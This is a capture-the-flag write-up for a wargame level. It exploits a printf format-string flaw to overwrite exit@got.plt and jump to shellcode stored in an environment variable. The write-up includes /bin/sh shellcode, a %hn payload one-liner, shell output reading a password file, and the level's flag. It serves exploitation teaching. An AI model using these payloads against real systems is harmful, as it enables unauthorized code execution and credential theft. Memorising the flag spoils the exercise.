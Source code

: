 # Overwrite got.plt table again

## Program summary

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.
```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz  scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

## Vulnerability
Since no sanitize takes place on our input and it is handled by **`printf()`**, we can use a **format string attack**.

We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the field in the **got.plt** table  :

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
...
08048370 <exit@plt>:
8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
...
0x80497e0 <exit@got.plt>:       0x08048376
```

## Attack design
Let's build our attack.

First we will inject a spawn shell code into an environment variable ( *using a **NOP slide** with shellcode can help to make exploits more reliable, as it provides a "buffer" of NOP instructions that can help to align the program's execution flow with the shellcode. This can help to prevent the exploit from failing due to small variations in the branch target address* ) :



    export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')


**got.plt** table addr: **`0x80497e0`**  

**env** var addr: **`0xffffd7d9`** / **`4294957017`**  
  
We notice that the address of the **env** var is a very large number, we will have to divide the overwrite operation into two parts.

```
1) d7d9 -> 55257 -> pad (55257 - 8) -> 55249
2) ffff -> 65535 -> pad (65535 - 55257) -> 10278

1st part addr: 0x80497e0
2th part addr: 0x80497e2

2th   1th 
[__|__|__|__] -> ??? [ff|ff|d7|d9]
```

```py
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55249c%10$hn" + "%10278c%11$hn"' > /tmp/boom
cat /tmp/boom - | ./level05
```

```
whoami
level06
cat /home/users/level06/.pass            
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> Flag : `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`
